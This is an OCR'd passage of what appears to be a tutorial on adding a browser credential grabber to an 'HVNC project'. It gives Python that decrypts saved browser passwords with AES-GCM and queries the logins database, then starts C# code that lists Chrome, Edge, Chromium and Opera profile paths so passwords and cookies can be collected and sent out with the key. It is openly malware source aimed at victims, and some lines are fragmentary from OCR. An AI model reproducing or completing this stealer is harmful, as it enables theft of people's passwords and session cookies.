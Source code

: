 
[CODE=python]

    def decrypt_password(buffer, master_key):
    try:
        iv = buffer[3:15]
        payload = buffer[15:]
        cipher = AES.new(master_key, AES.MODE_GCM, iv)
        decrypted_pass = cipher.decrypt( payload)[:-16].decode()
        return decrypted_pass
    except Exception as e:
        return f"Error decrypting password: {e}"
[/CODE] Skips the first 3 characters and defines characters 4 to 15 as IV. Then from the 15th character to the end it defines it as a password. Decrypts the password via AES using the key specified below.
[CODE=python]

    login_data_path 
[/CODE] Path to the database file with passwords
[CODE=python]

    connection = sqlite3.connect(login_data_path)
    cursor = connection.cursor() 
 [/CODE] Connect to the database
[CODE=python]

    cursor.execute("SELECT password_value FROM logins") 
[/CODE] Execute a query against the logins table and within it against the password_value column
[CODE=python]

    master_key_base64 [/CODE] Key in base 64 format
[CODE=python]

    master_key = base64.b64decode(master_key_base64) 
[/CODE] Decoding the key into bytes
We have looked at the example, now we will implement this in practice inside our HVNC project.

First, let's expand the client so that it can collect passwords and cookies and send them along with the key.

First of all, let's create the BrowserGrabber method.
Inside the method we will specify the dictionary to the main browser folders where the file with the key is located. 
[CODE]

    Dictionary<string, string> browserPaths = new Dictionary<string, string>{
    { "Google Chrome", Path.Combine(Environment.GetFolderPath(Environment.SpecialFolder.LocalApplicationData), @"Google\Chrome\User Data ") },
    { "Microsoft Edge", Path.Combine(Environment.GetFolderPath(Environment.SpecialFolder.LocalApplicationData), @"Microsoft\Edge\User Data") },
    { "Chromium", Path.Combine(Environment.GetFolderPath( Environment.SpecialFolder.LocalApplicationData), @"Chromium\User Data") },
    { "Opera", Path.Combine(Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData), @"Opera Software\Opera Stable") } }
    ;
[/CODE]
We create the main JSON object in which all information will be stored. 
[CODE]

